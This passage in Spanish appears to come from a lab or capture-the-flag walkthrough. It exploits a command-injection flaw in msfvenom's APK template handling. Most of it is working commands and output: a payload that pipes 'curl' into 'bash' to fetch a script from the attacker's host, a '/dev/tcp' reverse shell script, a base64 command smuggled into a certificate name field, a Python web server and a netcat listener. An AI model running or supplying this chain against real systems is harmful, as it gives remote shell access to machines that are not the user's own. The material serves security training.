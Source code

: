 **Opción 1**:
* Vamos a cambiar el script, aplicaremos **curl** para que pueda leer e interpretar un archivo que contiene una **Reverse Shell**:
```python
payload = 'curl Tu_IP/revShell.sh | bash'
```

* Crea el archivo que contenga la **Reverse Shell**:
```bash
nano revShell.sh
---
#!/bin/bash
bash -i >& /dev/tcp/Tu_IP/443 0>&1
```

* Abre un servidor en **Python**, en donde tengas el archivo **index.html**:
```bash
python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Genera la **APK** y mueve la **APK** a tu directorio de trabajo:
```bash
python Msfvenom_exploit.py
[+] Manufacturing evil apkfile
Payload: curl Tu_IP/revShell.sh | bash
-dname: CN='|echo UXVlIGhhY2VzIGRlY29kaWZpY2FuZG8gZXN0byBwaW5jaGUgY2hpc21vc28geGQK | base64 -d | sh #

  adding: empty (stored 0%)
Generando par de claves RSA de 2,048 bits para certificado autofirmado (SHA256withRSA) con una validez de 90 días
        para: CN="'|echo UXVlIGhhY2VzIGRlY29kaWZpY2FuZG8gZXN0byBwaW5jaGUgY2hpc21vc28geGQK | base64 -d | sh #"
jar signed.
*
Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
[+] Done! apkfile is at /tmp/tmp1r8ituck/evil.apk
Do: msfvenom -x /tmp/tmp1r8ituck/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

* Abre una **netcat** con el puerto que pusiste en el archivo **revShell.sh**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```
